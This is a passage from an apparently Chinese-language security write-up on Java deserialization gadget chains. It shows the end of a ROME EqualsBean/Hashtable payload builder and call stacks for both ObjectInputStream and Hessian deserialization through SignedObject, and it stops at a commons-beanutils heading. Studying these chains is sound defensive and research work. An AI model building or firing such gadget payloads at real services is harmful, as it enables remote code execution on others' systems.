 ```java
        map2.put(&#34;yy&#34;, payloadObj);
        Hashtable table = new Hashtable();
        table.put(map1, &#34;1&#34;);
        table.put(map2, &#34;2&#34;);
        setFieldValue(bean, &#34;_beanClass&#34;, clazz);
        setFieldValue(bean, &#34;_obj&#34;, payloadObj);
        return table;
    }
}
```

值得一提的是，因为 rome 的特殊性，该利用既可以用于`ObjectInputStream`的反序列化，也可以用于`HessianInput`的反序列化，茯苓分别给出这两种情况下的调用栈

```java
readObject:431, ObjectInputStream (java.io)
getObject:179, SignedObject (java.security)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
beanEquals:146, EqualsBean (com.sun.syndication.feed.impl)
equals:103, EqualsBean (com.sun.syndication.feed.impl)
equals:495, AbstractMap (java.util)
reconstitutionPut:1241, Hashtable (java.util)
readObject:1215, Hashtable (java.util)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
invokeReadObject:1170, ObjectStreamClass (java.io)
readSerialData:2178, ObjectInputStream (java.io)
readOrdinaryObject:2069, ObjectInputStream (java.io)
readObject0:1573, ObjectInputStream (java.io)
readObject:431, ObjectInputStream (java.io)
```

```java
readObject:431, ObjectInputStream (java.io)
getObject:179, SignedObject (java.security)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
beanEquals:146, EqualsBean (com.sun.syndication.feed.impl)
equals:103, EqualsBean (com.sun.syndication.feed.impl)
equals:495, AbstractMap (java.util)
put:470, Hashtable (java.util)
readMap:114, MapDeserializer (com.caucho.hessian.io)
readMap:532, SerializerFactory (com.caucho.hessian.io)
readObject:1160, HessianInput (com.caucho.hessian.io)
```

#### commons-beanutils
